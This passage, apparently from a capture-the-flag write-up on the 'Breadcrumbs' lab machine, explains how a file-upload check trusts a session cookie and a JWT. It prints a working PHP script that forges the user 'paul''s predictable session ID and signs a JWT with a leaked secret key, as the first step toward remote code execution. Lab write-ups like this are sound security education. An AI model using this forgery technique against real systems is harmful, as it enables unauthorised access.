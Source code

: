 `/includes/fileController.php` is checking if requested user is user "paul" or not by **decoding requested session's jwt token** and **session's username**. If it is equal to "paul" than upload file in `/portal/uploads/` directory. 

![](/assets/img/posts/breadcrumbs/file-control.png)


## File upload to RCE

**First,** generate user "paul" php session id. Because of the length of the user "paul" there are 4 possible session ids and 1/16 chances of login as user "paul".

**Second,** Generate jwt token for user "paul". This is always same because there only 1 static value in the payload.

Here is php script to generate session ID and jwt token.
```php
<?php

/*
First run "composer require firebase/php-jwt"
*/

require **DIR** . '/vendor/autoload.php';
use Firebase\JWT\JWT;

$username = "paul";

function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;

}

echo makesession($username) . "\n";

$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';

$payload = array(
    "data" => array(
        "username" => $username
));

$jwt = JWT::encode($payload, $secret_key, 'HS256');
echo $jwt . "\n";

```
